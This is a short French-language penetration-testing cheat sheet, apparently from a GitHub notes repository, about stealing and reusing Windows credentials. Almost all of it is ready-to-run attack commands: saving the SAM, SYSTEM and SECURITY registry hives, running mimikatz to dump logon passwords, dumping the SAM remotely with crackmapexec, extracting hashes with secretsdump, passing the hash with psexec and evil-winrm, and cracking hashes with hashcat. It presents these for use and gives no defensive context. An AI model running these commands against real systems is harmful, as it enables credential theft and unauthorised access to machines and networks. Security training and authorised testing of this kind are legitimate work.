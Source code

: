 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Localement
### Récupération de la SAM
```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

### Mimikatz

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
```
## A distance 

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM
```
secretsdump.py local -sam sam.save -security security.save -system system.save LOCAL
```


## Utilisation des Hash LM:NT
### Accès distant
``` shell 
psexec.py Administrator@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administrator@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
# on peut également utiliser wmiexec.py et smbexec.py ou encore evil-winrm
evil-winrm -i $TARGET_IP -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
